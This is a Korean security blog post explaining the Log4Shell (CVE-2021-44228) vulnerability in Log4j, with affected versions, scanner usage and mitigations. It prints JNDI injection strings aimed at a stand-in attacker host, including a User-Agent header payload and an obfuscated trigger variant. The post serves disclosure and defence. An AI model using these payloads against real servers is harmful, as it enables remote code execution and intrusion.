 ```yaml
---
title: "[Log4Shell] Log4j 보안 취약점"
tags: [보안뉴스, log4j, log4shell]
author: eli_ez3r
key: 20211213
modify_date: 2021-12-13
article_header:
  type: cover
  image:
    src: /assets/img/Apache-Log4j-Logo.jpg
---
```

-----

2021년 12월 10일  Log4j보안 취약점에 대한 긴급패치가 발표되었다.

이번 발견된 Log4j취약점 `Log4Shell`은 2021년 11월 24일 Alibaba Cloud 보안팀으로 부터 발견된 Zero-Day[^1] 취약점으로 뉴스에서 발표될 당시에는 이미 취약점 패치를 진행한 후 발표된 One-Day[^2] 취약점인 상태였다.

KISA : [Apache Log4j 2 보안 업데이트 권고](https://www.krcert.or.kr/data/secNoticeView.do?bulletin_writing_sequence=36389)

CVE : [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

-----





## Log4j 란?

Log4j는 Apache Software Foundation에서 개발한 인기있는 [로깅 유틸리티 라이브러리](https://en.wikipedia.org/wiki/Log4j)로 Apache 오픈소스이다.

전 세계 수 많은 서비스들이 Log4j를 이용하고 있으며 자바 프로그래밍 초보시절 `system.out.println("debug : " + str)` 로 디버깅 하던 것 대신, `log.info("debug {}", str)`하라고 조언 받은것 처럼 널리 사용하고 있는 라이브러리이다.



-----

## Log4j 취약점

현재 문제가 있는 log4j 라이브러리는 `log4j-core-<version>jar`이며, Log4j가 넘겨받은 변수를 그대로 로깅하는 것이 아니라 해당 변수를 분석해 할 수 있는 경우 실행하는 `Lookups` 기능에서 발견되었다.

예를들어, `log.info("Debug: {}", str)`에서 **str**이 **${env:USER}**라면 **USER**가 누군지 찾아서, `Debug: eli_ez3r`라고 문구를 완성하고 해당 문구를 출력하는 경우이다.

현재 취약점은 Lookups기능 중에서도 특히 **JDNI**라는 Lookups을 이용해 공격이 가능하다.

Apache Log4j 2의 일부 기능에는 **재귀 분석 기능(Recursive Analysis Functions)**이 있기 때문에 공격자가 직접 악성 요청을 구성하여 **원격 코드 실행 취약점(RCE)**을 유발시킬 수 있어 **CVSS스코어 10점**으로 가장 높은 심각도를 나타내고 있다.

취약점 악용에는 특별한 구성이 필요하지 않으며, Alibaba Cloud 보안팀의 검증결과 Apache Struts2, Apache Solr, Apache Druid, Apache Flink 등이 모두 영향을 받는 것으로 알려있다.



-----

## JNDI를 이용한 공격

JNDI란 Java Naming and Directory Interface의 약자로 보통 분산시스템에서 다른 리소스를 가져오는데 사용할 수 있다.

다른 리소스의 예로 자바 클래스 등에서 공격자가 이 경로를 자신의 서버로 지정하면 취약점이 있는 서버가 공격자의 서버에서 클래스를 다운받는 것이다.

이렇게 공격자의 서버에서 클래스를 다운받아 코드를 실행하게 된다.



예를들어 다음과 같은 로그 라인이 서버 어플리케이션에 존재한다고 하자.

```java
log.info("Debug: {}", payload);	
```

여기서 payload는 HTTP Requests에서 요청자가 보낸 문자열이다.

이 문자열이 `${jndi:ldap://attacker.com/classname}`을 포함하면 Log4j는 이를 해석하여 `ldap://attacker.com/classname`을 실행시키게 된다.

현재 가장 쉽게 공격할 수 있는 방법은 HTTP 헤더 **User-Agent**에 ldap주소를 넣어 코드를 다운받는 방법이라고 한다.

```
User-Agent : ${jndi:ldap://<host>:<port>/<path>}
```

물론 User-Agent 헤더 뿐만 아니라, HTTP Request에게서 받은 문자열을 로깅하는 경우 어디서든지 지정한 문자열을 로깅하기만 하면 취약점에 노출되어 있다.



-----

## Log4Shell 취약점은 사상 최악의 취약점?

Log4Shell의 취약점은 RCE취약점으로 취약점 중에서도 심각한 단계의 취약점으로 분류된다.

하지만 그 외에도 아래와 같은 점들 때문에 **사상 최악의 취약점**이라고 불려지고 있다.

1. Log4j는 자바 기반의 소프트웨어에서 굉장히 많이 쓰여지고 있는 라이브러리이다. => 공격 대상/범위가 광범위하다
2. 공격 방법이 간단하다. => 복잡한 과정없이 POC코드를 전송하기만 하면 공격이 성공한다.
3. 하나의 소프트웨어는 여러개의 소프트웨어가 조합되어 만들어지는데, 그중 한곳에서라도 Log4j를 사용하게 되면, 해당 소프트웨어는 취약하다.
4. 내 서버가 이미 공격을 당했는지 분석하기 위해서는 Log4j를 사용한 시점부터 분석해야 한다. => 10년 넘게 Log4j를 사용했다면?



-----

## 영향 받는 버전

1. Apache Log4j 2
   - 2.0-bete9 ~ 2.14.1 모든 버전
2. Apache Log4j 2를 사용하는 제품
   - [참고사이트](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)를 확인하여 해당 제품을 이용 중일 경우, 해당 제조사의 권고에 따라 패치 또는 대응 방안 적용



-----

## Trigger

공격자가 HTTP Request에 `${jndi:rmi://공격자URL}`, `${jndi:ldap://공격자URL}`, `${jndi:${lower:l}${lower:d}a${lower:p}://공격자URL}` 와 같이 요청 시 트리거된다.



-----



## 점검 방법(1)

[참고 사이트](https://github.com/logpresso/CVE-2021-44228-Scanner)에서 서버 운영체제에 맞게 파일을 다운받는다.

서버내에서 라이브러리가 설치되어 있는 경로를 넣어 점검한다.

- Windows

```
log4j2-scan [--fix] target_path
```

- Linux

```
./log4j2-scan [--fix] target_path
```

- 유닉스(AIX, Solaris ...)

```
java -jar logpresso-log4j2-scan-1.2.0.jar [--fix] target_path
```



- Example (Windows)

```
CMD> log4j2-scan.exe D:\tmp
[*] Found CVE-2021-44228 vulnerability in D:\tmp\elasticsearch-7.16.0\bin\elasticsearch-sql-cli-7.16.0.jar, log4j 2.11.1
[*] Found CVE-2021-44228 vulnerability in D:\tmp\elasticsearch-7.16.0\lib\log4j-core-2.11.1.jar, log4j 2.11.1
[*] Found CVE-2021-44228 vulnerability in D:\tmp\flink-1.14.0\lib\log4j-core-2.14.1.jar, log4j 2.14.1
[*] Found CVE-2021-44228 vulnerability in D:\tmp\logstash-7.16.0\logstash-core\lib\jars\log4j-core-2.14.0.jar, log4j 2.14.0
[*] Found CVE-2021-44228 vulnerability in D:\tmp\logstash-7.16.0\vendor\bundle\jruby\2.5.0\gems\logstash-input-tcp-6.2.1-java\vendor\jar-dependencies\org\logstash\inputs\logstash-input-tcp\6.2.1\logstash-input-tcp-6.2.1.jar, log4j 2.9.1
[*] Found CVE-2021-44228 vulnerability in D:\tmp\solr-7.7.3\solr-7.7.3\contrib\prometheus-exporter\lib\log4j-core-2.11.0.jar, log4j 2.11.0
[*] Found CVE-2021-44228 vulnerability in D:\tmp\solr-7.7.3\solr-7.7.3\server\lib\ext\log4j-core-2.11.0.jar, log4j 2.11.0
[*] Found CVE-2021-44228 vulnerability in D:\tmp\solr-8.11.0\contrib\prometheus-exporter\lib\log4j-core-2.14.1.jar, log4j 2.14.1
[*] Found CVE-2021-44228 vulnerability in D:\tmp\solr-8.11.0\server\lib\ext\log4j-core-2.14.1.jar, log4j 2.14.1

Scanned 5047 directories and 26251 files
Found 9 vulnerable files
Completed in 0.42 seconds
```





## 점검 방법(2)

[Log4j2 BurpSuite 수동 스캐닝 플러그인](https://github.com/whwlsfb/Log4j2Scan)





-----

## 해결방법

1. JDNI 취약점이 해결된 버전으로 패치한다
2. 2.0-beta9 ~ 2.10.0
   - JndiLookup 클래스를 경로에서 제거 : zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
3. 2.10 ~ 2.14.1
   - log4j2.formatMsgNoLookups 또는 LOG4J_FORMAT_MSG_NO_LOOKUPS 환경변수를 true로 설정
4. [제조사 홈페이지](https://logging.apache.org/log4j/2.x/download.html)를 통해 최신버전(2.15.0)으로 업데이트 적용





-----

출처: [ESTsecurity](https://blog.alyac.co.kr/4341), [KISA 침해사고분석단 취약점분석팀](https://www.krcert.or.kr/data/secNoticeView.do?bulletin_writing_sequence=36389), [Wiki](https://ko.wikipedia.org/wiki/Log4j)



[^1]:취약점이 알려지지 않거나, 관련 패치가 배포되지 않은 시기
[^2]: 취약점 대응 패치가 배포된 시기
